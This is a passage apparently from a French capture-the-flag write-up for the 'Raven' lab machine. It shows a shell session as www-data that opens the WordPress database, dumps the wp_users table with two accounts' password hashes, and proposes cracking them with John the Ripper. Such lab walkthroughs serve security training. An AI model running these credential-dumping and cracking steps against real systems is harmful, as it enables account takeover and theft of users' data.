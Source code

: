 ```console

mysql> use wordpress;
use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)

mysql> select * from wp_users;
select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     |           0 | michael        |
|  2 | steven     | $P$B6X3H3ykawf2oHuPsbjQiih5iJXqad. | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     |           0 | Steven Seagull |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
2 rows in set (0.00 sec)

mysql> exit
exit
Bye
www-data@Raven:/var/www/html/vendor$ 
```

Avec un peu de chance, [John The Ripper](http://openwall.com/john/) ne fera qu'une bouchée de ces hashs.
